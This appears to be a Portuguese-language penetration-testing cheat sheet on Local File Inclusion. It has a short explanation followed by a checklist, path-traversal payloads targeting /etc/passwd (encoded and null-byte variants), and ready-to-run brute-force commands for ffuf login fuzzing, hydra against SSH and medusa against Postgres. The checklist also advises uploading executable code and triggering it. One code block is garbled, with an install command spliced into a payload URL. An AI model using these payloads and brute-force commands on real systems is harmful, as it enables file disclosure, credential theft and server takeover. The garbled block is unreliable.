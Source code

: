## LFI 
<p>A vulnerabilidade de Local File Inclusion (LFI) surge da utilização insegura de parâmetros HTTP para controle de conteúdo em aplicações web, prática comum em linguagens como PHP, Node.js e Java. Frameworks frequentemente usam templates para incluir dinamicamente conteúdos com base em parâmetros da URL, como em chamadas do tipo /index.php?page=about. Quando esses parâmetros são passados diretamente para funções como include() sem validação, atacantes podem explorar essa falha para incluir arquivos locais sensíveis, como /etc/passwd ou arquivos de configuração. Essa exposição pode revelar código-fonte e credenciais, facilitando ataques mais graves como SQL Injection ou escalonamento de privilégios. Em ambientes mal configurados, LFI pode evoluir para execução remota de código, comprometendo completamente o servidor e possibilitando movimentação lateral e persistência.</p>
:fries: Checklist
- observe os campos das requisições em todos os métodos HTTP
- observe nos campos das requisições o tipo de informação usada 
- observe como a informação transmitida nos campos é processada
- observe funções de upload
- modifique o valor de um campo na requisição e observe como a aplicação responde
- adicione no campo payloads de LFI
- adicione no campo url para validar RFI
- crie um arquivo com código executável e faça o upload na aplicação
- procure acessar o arquivo para executar o código 

#### LFI Básico
```
http://example.com/index.php?page=../../../etc/passwd
http://example.com/index.php?page=....//....//....//etc/passwd
http://example.com/index.php?page=....\/....\/....\/etc/passwd
http://some.domain.com/static/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd

```

#### Null Byte
```sudo apt install seclists](http://example.com/index.php?page=../../../etc/passwd%00```

Search in Seclists
```find /usr/share/seclists -iname “*[string]*”```

### FFUF
[1] Copia a requisição do burp e salva em um arquivo .txt<p>
[2] Adiciona nos campos de login: FUZZUSER e FUZZPASS

```ffuf -request req.txt -request-proto https -mode clusterbomb -w /usr/share/seclists/users.txt:FUZZUSER -w /usr/share/seclists/pass.txt:FUZZPASS -mc 302```

### HYDRA
#### SSH
```
hydra -v -l [username] -P senhas.txt [IP] ssh -s [PORT]
```
### MEDUSA
#### POSTGRES
Instalação do client no Ubuntu ```apt install postgresql-client-common```
```
medusa -H ips.txt -u [nome-do-usuario] -p [senha] -M [modulo] -n [porta]

### ver os módulos

medusa -d 
```
<p>NOTA: Em alguns ambientes pode ser necessário instalar o Postgres-Client antes de executar um brute-force nesse serviço</p>
```
apt install postgresql-client-common # instalação no Ubuntu
```



